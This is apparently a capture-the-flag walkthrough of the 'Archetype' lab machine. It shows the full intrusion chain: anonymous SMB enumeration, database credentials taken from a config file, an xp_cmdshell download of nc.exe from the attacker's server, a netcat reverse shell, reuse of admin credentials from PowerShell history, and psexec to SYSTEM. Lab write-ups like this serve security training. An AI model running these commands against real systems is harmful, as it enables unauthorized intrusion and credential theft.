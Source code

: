 # Archetype

Assign the IP address of the Archetype machine to an environment variable:  
```export IP=10.10.10.27```  

Scan the Archetype machine:  
**-sC** for a script scan using the default scripts  
**-sV** for version detection  
**-Pn** disable host discovery (we already know the host is up)  
```nmap -sC -sV -Pn $IP```

**Open Ports**
```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

target name: ARCHETYPE
smb running on ports 135/139/445
SQL server running on 1433
computer name: ARCHETYPE
smb security mode:
	- account_used: guest
	- authentication_level: user
```
It looks like SMB is running on ports **135/139/445** as well as a SQL server instance running on port **1433**. Also, it looks like the nmap scan discovered that the smb security mode is using guest access.  
Let's list the available SMB shares on the target:  
```smbclient -N -L ////$IP//```  

**SMB shares**
```
    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    backups         Disk      
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
```

The backups share looks interesting, let's attempt to access the backups SMB share:  
```smbclient //$IP/backups```
```
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                10328063 blocks of size 4096. 8256400 blocks available

```
Let's download the **prod.dtsConfig** and have a look at it:  
```smb: \> get prod.dtsConfig```
```
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
```
Back on our Kali machine, let's print the contents of the file we just got:  
```cat prod.dtsConfig```

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Let's attempt to connect to the SQL server using the credentials found in the prod.dtsConfig file:  
```impacket-mssqlclient sql_svc:M3g4c0rp123@$IP -windows-auth```
```
SQL >
```

This is great for an initial foothold, but we need to do some privilege escalation because this user doesn't have administrative privileges. Because we're able to execute commands on the target machine using xp_cmdshell via the SQL connection, let's try to get netcat onto the target machine so we can initiate a reverse shell.  

Copy the nc.exe from the windows-resources folder on Kali to my home folder:  
```cp /usr/share/windows-resources/binaries/nc.exe .```

Start a python3 web server in the current folder to host the nc.exe file:  
```python3 -m http.server 80```
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On the target machine, download the nc.exe file using xp_cmdshell, wget, and the previous mssqlclient connection. We're going to put it into the **%TEMP%** folder:  
```xp_cmdshell powershell wget http://10.10.17.159/nc.exe -OutFile %TEMP%\nc.exe -UseBasicParsing```
```
10.10.10.27 - - [27/Jun/2021 21:57:14] "GET /nc.exe HTTP/1.1" 200 -
```

Start a nc listener on my Kali machine on port **4444** to listen for a reverse shell connection:  
```sudo nc -lvnp 4444```

Change directory to **C:\Users\sql_svc\Desktop** and print the **user.txt** for the user flag:  
```cd C:\users\sql_svc\Desktop```
```more user.txt```
```
3e7b102e78218e935bf3f4951fec21a3cd
```

From the target machine, use xp_cmdshell once again to execute the nc.exe file we just put onto the target machine to connect to my Kali machine on port **4444**:  
```xp_cmdshell powershell "%TEMP%\nc.exe -nv 10.10.17.159 4444 -e cmd.exe"```
```
C:\Windows\system32>whoami
whoami
archetype\sql_svc
```

By poking around for the powershell history file, we find it in the default directory:  
```dir/s *history.txt```
```
c:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

The following details are contained within the history file:  
```more ConsoleHost_history.txt```
```
net.exe use T: \\Archetype\backups **/user:administrator MEGACORP_4dm1n!!**
```

It looks like someone is using an Administrator account to map the SMB share, and we just got some potential admin credentials! Let's try them out back on our Kali machine with impacket's psexec:  
```impacket-psexec administrator@$IP```
```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file fzsGgOsb.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service dMzL on 10.10.10.27.....
[*] Starting service dMzL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```
```C:\Windows\system32>whoami```
```
nt authority\system
```
Boom! Well done! Now we just need to find the root/system flag, it's generally in the Desktop folder for the respective user/system account:  
```c:\Users\Administrator\Desktop>more root.txt```
```
b91ccec3305e98240082d4474b848528
```

